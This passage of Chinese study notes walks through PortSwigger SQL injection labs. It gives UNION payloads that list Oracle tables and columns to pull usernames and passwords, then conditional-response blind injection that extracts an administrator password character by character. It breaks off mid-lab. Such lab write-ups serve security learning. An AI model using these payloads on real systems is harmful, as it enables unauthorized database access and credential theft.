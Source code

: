 

> [Lab SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

由于Oracle数据库中的`SELECT`必须要和`FROM`配合出现，所以可以用`dual`表来进行占位。

1. 通过尝试，`'UNION+SELECT+'abc',+'abc'+FROM+dual--`成功，说明有当前表有两列且都是字符串类型。
2. 查看有哪些表：`'UNION+SELECT+table_name,+NULL+FROM+all_tables--`，找到了**USERS_AHJNLZ**这张表。
3. 查看这张表中有哪些列：`'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_AHJNLZ'--`最终找到存放用户名和密码的列名为：PASSWORD_QAGOVT和USERNAME_WGWVWL
4. 最后就可以找到admin的密码：`'UNION SELECT USERNAME_WGWVWL, PASSWORD_QAGOVT FROM USERS_AHJNLZ--`

![image-20220208154259474](https://tva1.sinaimg.cn/large/008i3skNgy1gz6j89ft6oj30j20b0dg9.jpg)

### 4. 盲注（Blind SQL Injection)

在很多情形下，SQL注入后不会显示错误信息甚至不会返回任何信息，例如应用有SQL漏洞，但是其HTTP回应不含相应注入的返回信息和数据库错误信息。常用的如UNION注入就不再适用了。这种blind漏洞仍然是可利用的，只不过更加复杂。常用的盲注方法有：

#### 1）触发条件应答盲注

例如在使用cookie登录时，服务器可能使用以下语句验证cookie：

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'cookie'`

不同于之前的注入，不正确的cookie不会返回任何信息，但是正确的cookie会重定位到一个例如Welcome Back的页面，这样的行为就是一种条件应答，并且可以作为一个注入点。这样的注入如何进行呢？考虑下面两种cookie后的输入

```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

第一个请求会显示welcome back，而第二个请求因为条件恒为false会导致没有返回，也就不会显示welcome back，这样的差别就让我们可以判断请求的对错从而获取数据库内的相关信息。例如，假设数据库中有一个User表，其中有Username和Password列，其中存放着用户Administrator的信息，我们可以通过每次确定一个字符的方式获取其登录密码，如下所示：

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

如果返回welcome页面，则可以确定其密码的第一个字符大于m。重复此步骤直到获得完整密码。

> [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

此lab的任务就是找到admin的密码，使用Burp查看一下页面请求发现了cookie：

`Cookie: TrackingId=xrZbR12nPsEWP8FJ; session=BBFx677kQDfMJXYbCXWJFahUhthnZdK3`

尝试再其后添加`AND '1'='1`，结果可以正常显示Welcome back，添加`AND '1'='2`后则不能正常显示，说明可以进行盲注。第二步就是逐步获得admin的密码。首先确定存在数据库，确定列名和admin的存在性。

`' AND (SELECT 'a' FROM users LIMIT 1)='a`

结果表明存在users表。

`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

结果表明存在username这一列，并且存在用户administrator。接下来，最好确定一下密码的长度。

`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
